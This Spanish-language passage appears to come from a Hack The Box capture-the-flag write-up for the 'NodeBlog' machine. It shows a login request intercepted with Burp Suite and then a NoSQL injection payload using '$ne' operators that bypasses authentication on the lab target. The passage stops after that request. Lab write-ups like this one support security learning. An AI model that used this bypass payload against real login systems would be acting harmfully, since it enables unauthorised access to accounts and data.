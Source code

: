 La página principal se ve así:

<img src="/writeups/assets/img/NodeBlog-htb/1.png" alt="">

Tengo acceso a un panel de autenticación


Intercepto la petición con ```BurpSuite``` para ver como se tramita

```null
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.139:5000
DNT: 1
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

user=test&password=test
```

Es vulnerable a inyección NoSQL

```null
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 51
Origin: http://10.10.11.139:5000
DNT: 1
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user":{"$ne": "test"},"password":{"$ne": "test"}}
```
